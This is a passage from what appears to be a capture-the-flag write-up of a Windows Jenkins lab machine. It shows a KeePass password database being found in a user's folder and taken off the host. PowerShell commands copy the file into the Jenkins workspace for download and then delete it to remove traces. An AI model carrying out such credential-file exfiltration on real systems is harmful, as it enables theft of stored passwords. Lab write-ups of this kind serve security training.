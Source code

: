
        Directory: C:\Users\kohsuke\Documents


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        9/18/2017   1:43 PM           2846 CEH.kdbx 



That's a [KeePass](https://keepass.info/) database, a local password
manager.

### Exfil

On a Linux host, I could just use `nc` to send this back. On Windows,
it's a bit tricker. Still, there's a webserver here, so I'll copy the
file into that directory:



    PS C:\Users\Administrator\.jenkins\workspace\0xdf> copy \users\kohsuke\Documents\CEH.kdbx .
    PS C:\Users\Administrator\.jenkins\workspace\0xdf> ls


        Directory: C:\Users\Administrator\.jenkins\workspace\0xdf


    Mode                LastWriteTime         Length Name                                                                  
    ----                -------------         ------ ----                                                                  
    -a----        9/18/2017   1:43 PM           2846 CEH.kdbx  



Now clicking on "Workspace" in the Jenkins GUI shows the file:

![](/img/image-20220412205920650.png)

Once I download it, I'll delete it from the directory:



    PS C:\Users\Administrator\.jenkins\workspace\0xdf> del CEH.kdbx 
